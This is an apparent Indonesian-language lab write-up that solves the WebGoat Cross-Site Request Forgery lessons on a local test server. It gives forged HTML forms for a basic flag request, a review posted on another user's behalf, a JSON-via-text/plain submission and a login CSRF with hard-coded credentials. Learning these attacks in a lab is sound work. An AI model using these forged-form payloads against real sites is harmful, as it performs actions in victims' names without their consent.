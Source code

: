 # Cross-Site Request Forgeries
CSRF atau XSRF adalah jenis eksploitasi berbahaya pada situs web di mana perintah tidak sah dikirimkan dari pengguna yang mengunjungi situs web tersebut.

## Basic Get CSRF Exercise
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/CSRF.lesson/2
- Klik kanan pada samping tombol **Submit Query** lalu pilih Inspect

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%201.JPG)

- Temukan sebuah form di sekitar tombol tersebut

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%202.JPG)

- Sekarang kita copy form tersebut dengan cara klik kanan lalu pilih Copy > Outer HTML

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%203.JPG)

- Disini webgoat berjalan di localhost dan port 9001 sehingga kita perlu menambahkan informasi tersebut pada atribut action sehingga source code nya menjadi seperti berikut ini, simpan dengan nama **csrf.html**
```sh
<form accept-charset="UNKNOWN" id="basic-csrf-get" method="POST" name="form1" target="_blank" successcallback="" action="http://127.0.0.1:9001/WebGoat/csrf/basic-get-flag">
	<input name="csrf" type="hidden" value="false">
	<input type="submit" name="submit">
</form>
```
- Login ke web wolf di tab baru melalui url http://127.0.0.1:9090/login dan login menggunakan akun yang anda gunakan di webgoat

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%204.JPG)

- Pergi ke menu Files

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%205.JPG)

- Unggah file **csrf.html**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%206.JPG)

- Jika sudah berhasil terunggah klik link

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%207.JPG)

- Lalu tekan tombol **Submit Query**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%208.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%209.JPG)

- Kembali ke halaman webgoat http://127.0.0.1:9001/WebGoat/start.mvc#lesson/CSRF.lesson/2 dan masukkan nilai flag

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2010.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2011.JPG)

## Post a review on someone else’s behalf
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/CSRF.lesson/3
- Klik kanan pada salah satu field lalu pilih Inspect

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2012.JPG)

- Disini ditemukan sebuah form, yang perlu kita lakukan adalah membajak form tersebut

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2013.JPG)

- Pilih tag form lalu klik kanan dan lalu pilih Copy > Outer HTML

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2014.JPG)

- Disini webgoat berjalan di localhost dan port 9001 sehingga kita perlu menambahkan informasi tersebut pada atribut action sehingga source code nya menjadi seperti berikut ini, simpan dengan nama **csrf2.html**
```sh
<form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://127.0.0.1:9001/WebGoat/csrf/review">
	<input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
        <input class="form-control" id="reviewStars" name="stars" type="text">
        <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
        <input type="submit" name="submit" value="Submit review">
</form>
```
- Buka kembali fitur Files pada web wolf yang sudah kita akses dipertanyaan sebelumnya http://127.0.0.1:9090/files

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2015.JPG)

- Unggah file **csrf2.html**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2016.JPG)

- Jika sudah berhasil terunggah klik link

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2017.JPG)

- Tekan tombol **Submit review** tanpa harus mengisi form terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2018.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2019.JPG)

## CSRF and content-type
- Sumber referensi: https://pentestmonkey.net/blog/csrf-xml-post-request
- Disini kita akan membajak form di halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/CSRF.lesson/6 sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2020.JPG)

- Form tersebut harus mengarah ke path URL **/csrf/feedback/message**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2021.JPG)

- Buat sebuah halaman dengan kode HTML sebagai berikut lalu simpan dengan nama **csrf3.html**
```sh
<form name="csrf-feedback" enctype="text/plain" action="http://127.0.0.1:9001/WebGoat/csrf/feedback/message" method="POST">
	<input type="hidden" name='{"name":"Webgoat","email":"webgoat@webgoat.org","subject":"Suggestions","message":"Test Message' value='"}'>
	<input type="submit">
</form>
```
- Unggah file **csrf3.html** ke menu files di web wolf http://127.0.0.1:9090/files

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2022.JPG)

- Jika sudah berhasil terunggah klik link

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2023.JPG)

- Lalu tekan tombol **Submit Query**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2024.JPG)

- Copy nilai flag

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2025.JPG)

- Paste ke field flag di halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/CSRF.lesson/6

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2026.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2027.JPG)

## Login CSRF attack
- Registerasi user baru di http://127.0.0.1:9001/WebGoat/registration. Jika nama user yang anda gunakan adalah `tom` maka harus mendaftarkan user baru dengan nama `csrf-tom`
- Karena nama user yang saya gunakan adalah `testing` maka saya mendaftarkan user baru dengan nama `csrf-testing`

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2028.JPG)

- Setelah registerasi berhasil, kita akan otomatis login sebagai user baru. Silahkan Log Out lalu login dengan akun user asli

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2029.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2030.JPG)

- Buat sebuah halaman dengan kode HTML sebagai berikut. Isi username dan password sesuai dengan akun yang anda daftarkan tadi, lalu simpan dengan nama **csrf4.html**
```sh
<form action="http://127.0.0.1:9001/WebGoat/login" method="POST">
	<input type="hidden" name="username" value="csrf-testing">
	<input type="hidden" name="password" value="testing">
	<input type="submit">
</form>
<script>document.login.submit()</script>
```
- Unggah file **csrf3.html** ke menu files di web wolf http://127.0.0.1:9090/files

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2031.JPG)

- Jika sudah berhasil terunggah klik link

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2032.JPG)

- Lalu tekan tombol **Submit Query**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2033.JPG)

- Setelah berhasil login, pergi ke halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/CSRF.lesson/7

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2034.JPG)

- Kemudian tekan tombol **Solved!**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2035.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/Cross-site%20request%20forgeries/csrf%2036.JPG)